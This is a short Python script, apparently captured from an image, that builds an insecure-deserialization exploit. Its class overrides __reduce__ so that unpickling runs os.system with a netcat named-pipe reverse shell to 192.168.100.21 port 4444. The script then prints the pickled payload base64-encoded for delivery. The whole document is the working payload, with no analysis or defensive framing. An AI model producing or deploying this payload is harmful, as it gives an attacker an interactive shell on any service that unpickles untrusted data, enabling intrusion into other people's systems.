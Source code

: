 import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | ' '/bin/sh -i 2>&1 | nc 192.168.100.21 4444 > /tmp/f')
        # cmd = ('pwd')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
